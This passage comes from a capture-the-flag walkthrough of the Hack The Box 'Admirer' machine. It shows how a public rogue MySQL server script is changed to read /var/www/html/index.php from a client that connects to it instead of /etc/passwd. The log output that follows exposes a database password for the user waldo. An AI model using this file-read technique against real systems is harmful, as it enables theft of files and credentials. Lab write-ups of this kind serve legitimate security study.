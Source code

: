 We have successfully leaked the password for waldo and can use it to login via SSH.

#### Way 2: Rogue MySQL server from GitHub
After a bit of searching around I found a [rogue mysql server](https://raw.githubusercontent.com/allyshka/Rogue-MySql-Server/master/rogue_mysql_server.py) on [GitHub](https://raw.githubusercontent.com/allyshka/Rogue-MySql-Server/master/rogue_mysql_server.py).

Now the server needs some modification. By default it tries to read `/etc/passwd`, but we want to read index.php instead.

We have to change the following in the server-script:

```python
filelist = (
    '/etc/passwd',
)
```
To:
```python
filelist = (
'/var/www/html/index.php',
)
```

If we now run the rogue mysql-server it should generate a `mysql.log` file, as soon as the data is leaked.

![Login to rogue server](/assets/htb/Admirer/rogue-login.png)

Upon connecting to our rogue mysql-server, the script read the index.php file and saves it to mysql.log.

```bash
root@darkness:~# cat mysql.log
2020-05-03 13:01:29,274:INFO:Conn from: ('10.10.10.187', 49484)
2020-05-03 13:01:29,358:INFO:Last packet
2020-05-03 13:01:29,445:INFO:Query
2020-05-03 13:01:29,524:INFO:-- result
2020-05-03 13:01:29,524:INFO:Result: '\x02<!DOCTYPE HTML>
<!--Multiverse by HTML5 UP html5up.net | @ajlknFree for personal and commercial use under the CCA 3.0 license (html5up.net/license)-->
<html>
<head>
<title>Admirer</title>
<meta charset="utf-8"/>
<header id="header"><h1><a href="index.html"><strong>Admirer</strong> of skills and visuals</a></h1><nav><ul><li><a href="#footer" class="icon solid fa-info-circle">About</a></li></ul></nav></header>
<!-- Main -->
<div id="main">
<?php
    $servername = "localhost";
    $username = "waldo";
    $password = "&<h5b~yK3F#{PaPB&dA}{H>";
    $dbname = "admirerdb";
    // Create connection
```